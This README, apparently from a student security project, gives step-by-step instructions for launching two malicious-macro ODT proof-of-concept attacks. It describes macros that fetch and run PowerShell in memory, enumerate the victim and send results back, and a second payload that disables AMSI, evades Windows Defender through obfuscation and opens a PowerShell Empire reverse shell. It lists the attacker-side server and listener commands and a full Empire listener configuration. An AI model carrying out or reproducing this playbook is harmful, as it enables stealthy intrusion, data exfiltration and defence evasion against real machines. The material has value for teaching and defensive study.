 # Instruction for attacks
In this document are presented the instration to launch the attack with the POCEnumAndSendBackResults.odt and the POC-msf.odt file.

**NOTE: before launching the attacks make sure that the attacker machine can communicate with the victim machine and has an IP address of 10.0.2.4**


## POCEnumAndSendBackResults.odt
This document contains a macro which gets automatically executed when the document is open. The macro code downloads a PowerShell script called attackScript.ps1 from an attacker machine which gets executed in memory. This script acts as a dropper for downloading another PowerShell script called enumScript.ps1 from the attacker machine which performs some basic enumeration on the victim device. Then it encodes the result from the enumeration and sends the result back to the attacker using a POST web request. The techniques used in macro are realistic and stealthy as no artefacts are left on the disk of the victim machine.

### Steps to reproduce attacks
1) Go in the POCEnumAndSendBackResults folder where the required powershell scripts  are located. 
```
cd /home/kali/Desktop/compsec2/POCEnumAndSendBackResults
```
2) Start an http server on port 8080 using Python
```
python -m http.server 8080
```
3) Open a new terminal window and use nc to listen on port 443
```
nc -lvnp 443
```
4) Open the POCEnumAndSendBackResults.odt file on the victim machine. You should see from the Python webserver that two files get donloaded
5) Go to the terminal tab with nc listening. You should have received back a POST web requiste from the victim machine with some base64 encoded data
6) Decode the base64 data
```
echo 'base64EncodedData' | base64 -d
```




## POC-msf.odt
Macro3 - POC-msf.odt: This document contains a macro which gets automatically executed when the document is open. The macro code downloads a PowerShell script from an attacker machine which gets executed in memory and acts as a dropper for downloading another PowerShell script which Disable AMSI and executes a powershell-empire  reverse shell back to the attacker. The macro code and the PowerShell script are highly obfuscated to avoid that Windows Defender detecting the .odt file and macro scripts as malicious. The techniques used in macro are realistic and stealthy as everything is performed in memory (using the IEX command) leving no artifacts on the disk of the victim machine.

### Steps to reproduce attacks
1) Go in the POCmsf folder where the required powershell scripts  are located. 
```
cd /home/kali/Desktop/compsec2/POCmsf
```
2) Start an http server on port 8080 using python
```
python -m http.server 8080
```
3) Open a new terminal window and start the Powershell Empire server 
```
sudo powershell-empire server
```
4) Open the browser and go to http://localhost:1337/index.html. The credential to log in are empireadmin-password123
5) Go into the listener section. A listerner called http should already exist. If it does not existe create one using this info (if information is not present below, leave as default):
```
type: http
name: http
host: http://10.0.2.4:8000
port: 8000
bindIp: 0.0.0.0
launcher: powershell -noP -sta -w 1 -enc 
stagingKey: q5DRvd&HF}~MGS.)#TroflKCiW/c8?>z
defaultDelay: 5
defaultJitter: 0.0
defaultLostLimit:60
defaultProfile: /admin/login.php,/news.php,/blog/article1.php|Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Headers: Server:Microsoft-IIS/7.5
JA3_Evasion: False
cookie: PHPID
```
6) Open the POC-msf.odt file on the victim machine. You should see from the python webserver that two files get downloaded
7) Go to the agent tab, you should see that a new agent has been activated and a reverse shell has been established between the victim and attacker bypassing AMSI and Windows Defender

